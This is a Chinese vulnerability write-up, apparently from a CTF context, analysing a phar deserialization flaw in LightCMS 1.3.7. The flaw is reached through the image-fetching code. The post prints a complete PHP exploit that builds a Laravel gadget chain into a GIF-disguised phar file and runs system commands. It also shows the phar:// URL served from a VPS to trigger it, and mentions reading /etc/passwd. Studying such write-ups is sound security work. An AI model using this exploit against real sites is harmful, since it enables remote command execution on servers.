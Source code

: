 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9561)

> 先知社区，先知安全技术社区

写在前面
----

在这次红帽中有一道这样的题，审的时候看到有文件上传，但是存在白名单限制，laravel6 是有反序列化漏洞的，想到要用文件上传打 phar 的，但是没有找到可以触发 phar 的利用点，可惜了。

环境准备
----

```
phpstorm +php7.3+xdebug+lightcms 1.3.7
```

按照[官网](https://github.com/eddy8/LightCMS/tree/v1.3.7)的教程来安装就好了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-252d1eb4-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-252d1eb4-b178-1.png)

漏洞分析
----

拿到源码，看一圈，基本都是一些数据库的操作，而且还没有可以控制的参数。

有一个文件上传的地方。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-25436944-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-25436944-b178-1.png)

其中的 `uploadImage` 方法可以上传图片

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-255a2a08-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-255a2a08-b178-1.png)

看一下 `isValidImage` 方法

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-256b46ee-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-256b46ee-b178-1.png)

在 `/config/light.php` 里找配置

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-2587ceb8-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181154-2587ceb8-b178-1.png)

不难发现允许上传的文件类型还是比较苛刻的。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-25d8f68a-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-25d8f68a-b178-1.png)

上传的图片地址如上。

同样有 `uploadVedio` 和 `uploadFile` 方法，操作相差不大。

这个控制器下面还有一个 `catchImage` 的方法

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-25ed9496-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-25ed9496-b178-1.png)

这个方法在 1.3.5 之前的版本是存在漏洞的，

[https://tyskill.github.io/Articles/CVE-2021-27112/](https://tyskill.github.io/Articles/CVE-2021-27112/)

可以参照这篇文章看一看。

作者修复的地方就是添加了 `fetchImageFile` 方法。

跟进看一下

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-2608c400-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-2608c400-b178-1.png)

先检查是否是合法的 url，

如果 curl 出错，会返回 false，（windows 因为 没有 `file:///etc/passwd`，所以返回了 fasle）也就是直接 return 掉了，当然我们是希望不被 return 的，修改一下值好了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-261f8942-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-261f8942-b178-1.png)

`isWebp`是一个自定义函数

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-262e56ac-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181155-262e56ac-b178-1.png)检查图片是否是 `webP` 格式不是就进入`else`分支，执行`Image::make($data)` 方法

不断步进，先不要步过，一步一步看，小心遗漏重要的点。直到这里

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-263ceeb0-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-263ceeb0-b178-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26567574-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26567574-b178-1.png)

我们刚刚修改的 `data`值为`true`，是为了防止刚刚被`return`掉。但其实如果我们 去 `curl` 一个正常的网页， `$data` 是有数据的，会在这里的`case` 分支进行处理，注意这里，有个 `isUrl` 方法，判断我们的`curl` 后的数据是否是个`url`？是否可以`phar` 呢？

`phar` 协议可以通过检测

再看`initFromUrl`方法。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26681fcc-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26681fcc-b178-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26753996-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26753996-b178-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-268bdf0c-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-268bdf0c-b178-1.png)

这里用 `file_get_contents` 处理我们的`curl`后的`data`，可以触发`phar`协议。

exp 如下

```
<?php
namespace Illuminate\Broadcasting
{
    use  Illuminate\Events\Dispatcher;
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Dispatcher($cmd);
            $this->event=$cmd;
        }
    }

}


namespace Illuminate\Events
{
    class Dispatcher
    {
       protected $listeners;
       public function __construct($event){
           $this->listeners=[$event=>['system']];
       }
    }
}
namespace{
    $phar = new Phar('phar.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $o = new Illuminate\Broadcasting\PendingBroadcast($argv[1]);
    echo base64_encode(serialize($o));
    $phar -> setMetadata($o);
    $phar -> addFromString('test.txt','test');
$phar -> stopBuffering();
}


```

将文件后缀改成 .gif

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26a4936c-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26a4936c-b178-1.png)

ok，现在在 vps 上写入

```
phar://./upload/image/202105/IWacvAi8HW9bb6PMdmyURxQSy12tVgp2sevOUXV5.gif

```

打

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26ba10f2-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181156-26ba10f2-b178-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510181157-26eb56bc-b178-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510181157-26eb56bc-b178-1.png)

写在后面
----

这个漏洞的利用点着实够刁钻的，一个 url 后再加一个 url。Y1ng 师傅牛逼。最后真的希望各位 ctf 选手洁身自好，py 可真没意思，尊重出题人，尊重比赛，尊重那些有梦想的师傅。

参考
--

[https://www.gem-love.com/websecurity/2763.html](https://www.gem-love.com/websecurity/2763.html)